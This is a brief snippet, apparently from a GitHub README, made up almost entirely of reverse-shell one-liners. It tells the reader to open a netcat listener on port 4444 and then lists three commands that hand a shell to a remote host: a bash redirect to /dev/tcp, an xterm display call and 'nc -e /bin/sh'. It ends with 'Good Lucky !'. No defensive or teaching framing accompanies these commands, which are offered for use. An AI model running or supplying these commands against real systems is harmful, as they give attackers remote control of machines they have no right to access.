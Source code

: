 To use any reverse shell here, open a connection on your machine: nc -lvnp 4444

Some variables you can try when it comes to reverse shell:

bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
xterm -display 192.168.0.5:4444
nc -e /bin/sh 192.168.0.5 4444

Good Lucky !
